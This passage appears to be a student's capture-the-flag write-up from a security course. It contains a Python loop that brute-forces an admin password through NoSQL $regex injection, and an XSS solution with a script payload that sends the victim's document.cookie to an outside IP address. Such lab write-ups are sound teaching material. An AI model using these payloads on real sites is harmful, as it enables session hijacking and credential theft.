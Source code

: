 ```python

while response.status_code != 200:
	i += 1
	char = alpha_num[i]
	print(f"try this char next: {char}...")
	data = {
	"username": "admin",
	"password": {"$regex": f"^s0m3!!_s3cur3\$#@_p4ss{char}"}
	}
	response = requests.post(url, json=data, headers=headers, cookies=cookies)


print("Status Code:", response.status_code)
print("Response Body:")
print(response.text)
print(f"Char was: {char}")
```



## 🟢 XSS 1 (100)
Given:
- admin website
	- We enter a URL that the admin will click on
- actual website 
	- "Get admin's cookie"
	- We enter name input and click enter

Solve:
The goal of XSS is to attack another user as a user of the same website. Here, we aim to attack the admin user. Specifically, we attack the admin by stealing their cookie. What can we do?

Let's solve this problem by thinking backwards. To get admin cookie, we want the admin to send their cookie out, to a place where we can read it. Heading onto the website and trying to enter our name, we notice that whatever we enter gets displayed on the page. We can leverage this to display the admin cookie. 

Initial thought: let admin click on a URL that contains script to send POST request to the website with their cookie as their "name". Problem: they click on the URL and they see the name displayed on their screen. How do I see it on my screen? We need a way for admin to send the cookie out to ME...

Recall the lecture, we mentioned something about using existing websites online that we can see the ... posted contents of? So we can construct a malicious URL that will send as a POST request the user's cookie to that website, and we head to that website to view it? Might work...

Observations about website:
- after entering name, we are led to the /greet page
	- Input gets stored into ?name URL variable
		- We will inject the script tags here
			- Try on our own browser: enter `http://offsec-chalbroker.osiris.cyber.nyu.edu:10003/greet?name=_<script>alert(1)</script>_` and we get an alert to the screen!
			- Try on our own browser for name input: `<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://68.183.28.210:8000/'+document.cookie,false);xhr.send();</script>`
				- It works! I see the GET request when I run a http server on my VM
